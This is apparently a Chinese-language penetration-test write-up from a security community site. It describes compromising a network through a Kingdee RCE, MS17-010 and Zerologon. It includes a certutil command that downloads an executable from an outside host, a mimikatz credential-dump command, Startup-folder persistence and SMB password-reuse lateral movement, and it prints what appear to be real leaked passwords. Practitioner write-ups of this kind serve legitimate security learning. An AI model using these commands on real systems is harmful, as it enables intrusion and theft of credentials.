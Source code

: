 

# 某次极为顺畅的实战案例 - 先知社区

某次极为顺畅的实战案例

- - -

真实案例，厚码见谅，有些步骤可能有些忘记，截图并不是很全面。

## 金蝶云星空 RCE

[![](assets/1707954485-cc6c5ad41373bcbd26aad7dcfb367784.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706693600822-57cbaabf-b4e5-4057-8d67-fd30b82ce120.png#averageHue=%23121111&clientId=u9b161eab-9b55-4&from=paste&height=363&id=u35aedbb4&originHeight=544&originWidth=1126&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=69557&status=done&style=none&taskId=u5ecb0b4e-0ed2-43ac-a80c-2ee8e1c8008&title=&width=750.6666666666666)  
shell 之后尝试上线（出网）  
certutil -urlcache -split -f [http://xx.xx.xx.xx/test.exe](http://xx.xx.xx.xx/test.exe) c:\\test.exe  
这里 exe 的位置只是一个示例，正常都是在 tmp 目录下的  
有 CS 的话，就上传 frp[![](assets/1707954485-ecdd2200c9fcc9f7a6145294b0f21649.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706780036582-45c9ed80-bb36-4856-94a7-f8f621dbe962.png#averageHue=%23fafafa&clientId=u72c16cc2-3b51-4&from=paste&height=165&id=ufca44e82&originHeight=247&originWidth=966&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=27901&status=done&style=none&taskId=u1fd655fc-4365-4d91-be01-ad5ec70d580&title=&width=644)

## 本机信息收集

上传 mimikatz 收集密码本  
mimikatz 收集密码  
`mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords full"`[![](assets/1707954485-6b18d7a2be2229ae38d5653675415b5e.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706694513939-f2854869-26fd-407e-8a98-742c07a64d7a.png#averageHue=%230e0e0e&clientId=u160b632d-1584-4&from=paste&height=306&id=ubef53b29&originHeight=459&originWidth=970&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=86412&status=done&style=none&taskId=u507a78e2-c5f0-45f2-9cf2-882b8ac784f&title=&width=646.6666666666666)  
get 一个密码，乍一看还有域  
`administrator/@qweadmin5656`  
之后在翻取文件的地方，发现有个密码`HAO&^&123`

## 维权

这里因为是简单的市护网，没人应急，维权就把 exe 的木马文件放到启动目录下  
`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

## 内网横向

之后就是 fscan 的扫描  
先简单的使用密码本进行横向扫描，针对 445 端口进行密码复用的爆破。  
因为 SMB 密码和 RDP 的密码是一样的。并且 SMB 的爆破速度比 RDP 更快。  
这里获取了大概五六个权限，就可以放开去扫了  
[![](assets/1707954485-905bec7d9f9ecb5f28f8601a75e7312a.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706778977874-8702becd-5734-42c2-a92f-9f00a6aa1e64.png#averageHue=%23181717&clientId=u72c16cc2-3b51-4&from=paste&height=428&id=u3f95350d&originHeight=642&originWidth=1003&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=103669&status=done&style=none&taskId=u7d598f7e-2a62-41cf-b964-821c60c1557&title=&width=668.6666666666666)  
内网中扫描到一些 海康威视综合安防管理平台  
[https://github.com/Tas9er/HikvisionIVMSGetShell](https://github.com/Tas9er/HikvisionIVMSGetShell) 换上 Gazila 的 shell  
地址为[https://xxx.xxx.xxx/abcd.jsp;js](https://xxx.xxx.xxx/abcd.jsp;js)  
[![](assets/1707954485-0368201dc33ba5482bd6d27ad7b7d94a.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706779346625-c40e8e3d-1d01-4619-a330-76fb78d34174.png#averageHue=%23000000&clientId=u72c16cc2-3b51-4&from=paste&height=505&id=ucbecc3c4&originHeight=757&originWidth=1305&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=168671&status=done&style=none&taskId=u245d3db0-fa7f-48d6-8e24-99bf08e209c&title=&width=870)  
一堆永恒之蓝，直接 msf 梭哈就行，但是命令执行多了容易崩

```plain
[+] 172.21.3x.3x MS17-010 (Windows Server 2008 R2 Enterprise 7601 Servic
e Pack 1)
[+] 172.21.3x.1x MS17-010 (Windows Server 2016 Standard 14393)
[+] 172.21.3x.x9 MS17-010 (Windows Server 2012 R2 Standard 9600)
[+] 172.21.1x9.2x7 MS17-010 (Windows 7 Ultimate 7601 Service Pack 1)
[+] 172.21.1x0.2x MS17-010 (Windows 7 Enterprise 7600)
[+] 172.21.1x9.6x MS17-010 (Windows 7 Ultimate 7601 Service Pack 1)
[+] 172.21.1x0.1x0 MS17-010 (Windows 7 Professional 7601 Service Pack 1)
[+] 172.21.1x0.1x6 MS17-010 (Windows 7 Professional 7601 Service Pack 1)
[+] 172.21.1x3.2x5 MS17-010 (Windows 7 Ultimate 7601 Service Pack 1)
[+] 172.21.1x0.1x3 MS17-010 (Windows 7 Professional 7601 Service Pack 1)
[+] 172.21.1x2.x34 MS17-010 (Windows 7 Enterprise 7600)
[+] 172.21.1x9.x28 MS17-010 (Windows 7 Ultimate 7601 Service Pack 1)
[+] 172.21.1x0.x63 MS17-010 (Windows 7 Professional 7601 Service Pack 1)
[+] 172.21.3x.5x MS17-010 (Windows Server 2012 R2 Datacenter 9600)
[+] 172.21.1x9.x7 MS17-010 (Windows 7 Ultimate 7601 Service Pack 1)
[+] 172.21.1x0.x32 MS17-010 (Windows 7 Professional 7601 Service Pack 1)
[+] 172.21.3x.x1 MS17-010 (Windows Server 2012 R2 Standard 9600)
```

数据库弱口令，比如 root/root(mysql),sa/123456（mssql），redis 未授权按，大概十几个数据库，几十万数据，就不一一放截图了。  
[![](assets/1707954485-51ac3d8d54100f50c8db647b5757ba2e.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706779703407-73034212-42d5-4ac1-95d9-f90e0a6644f2.png#averageHue=%23f8f8f8&clientId=u72c16cc2-3b51-4&from=paste&height=527&id=ue8b568f7&originHeight=790&originWidth=1147&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=142317&status=done&style=none&taskId=u3ff17659-50c3-4e7d-a96d-7ae5f65f6d6&title=&width=764.6666666666666)  
如上所见 基本上都是 172 段的机子，在某次 RDP 的时候发现一个双网卡机子，通 192 段和 169.254 段（突破网络限制 1000 分）  
[![](assets/1707954485-a08c272c71ed754e2b21a229b48942e2.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706779932502-cf92b7db-93b3-436f-813a-f899d39635e7.png#averageHue=%23111010&clientId=u72c16cc2-3b51-4&from=paste&height=412&id=u3cca8a8d&originHeight=618&originWidth=1299&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=213309&status=done&style=none&taskId=u79a39e98-17db-4dd8-96b2-c13825c131d&title=&width=866)  
但是这里只梭哈了 192 段。  
由于这个双网卡机子出网，所以就上了个 frp，继续上传 mimikatz 查看密码本。这里过程重复上面的过程了基本上，就不重新描述了。  
有意思的是在扫描的过程中看到了域控。zerologon 直接 getshell  
[![](assets/1707954485-9626c0395a505aae0007d9d073a122dc.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706780197230-72ca064e-9537-4b32-846c-3d8af4728d8b.png#averageHue=%2334363e&clientId=u72c16cc2-3b51-4&from=paste&height=216&id=u4bc8e3f9&originHeight=324&originWidth=1471&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=275829&status=done&style=none&taskId=u1530c692-656c-40cc-b605-5fac39a535a&title=&width=980.6666666666666)  
[![](assets/1707954485-0ebe273a46852cf4e054e7ee290ce0c3.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706780296062-77f82929-b435-4faf-bdff-705ac0bb6bf2.png#averageHue=%23292c36&clientId=u72c16cc2-3b51-4&from=paste&height=226&id=u0dba93bc&originHeight=339&originWidth=822&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=84465&status=done&style=none&taskId=ufbe971e8-a202-4944-8aa5-891633bb30b&title=&width=548)  
[![](assets/1707954485-edfb4017b43f1411bafca9ee64aa8fda.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706780325467-e83bc7b3-be26-45b5-bbd7-7592e19d1219.png#averageHue=%23f6f4f1&clientId=u72c16cc2-3b51-4&from=paste&height=419&id=ue90e0d8c&originHeight=628&originWidth=919&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=223628&status=done&style=none&taskId=u51b1c432-e3f3-414c-9c4d-642e0d98917&title=&width=612.6666666666666)  
加个域管理，收工。  
[![](assets/1707954485-08c0563bc0e5524824e0f35d8b449cce.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706780376073-345c3df0-8ac5-4b68-92fd-a1a2a6665730.png#averageHue=%23050504&clientId=u72c16cc2-3b51-4&from=paste&height=339&id=ubd00380d&originHeight=508&originWidth=1336&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=109838&status=done&style=none&taskId=u8623506e-dbbe-47e4-8cf3-f53a08fe59c&title=&width=890.6666666666666)  
回头看看这个靶标，拿下的基本上很顺利，并没有什么坑坑绕绕。基本上一直在重复扫描，收集信息，继续扫描的过程
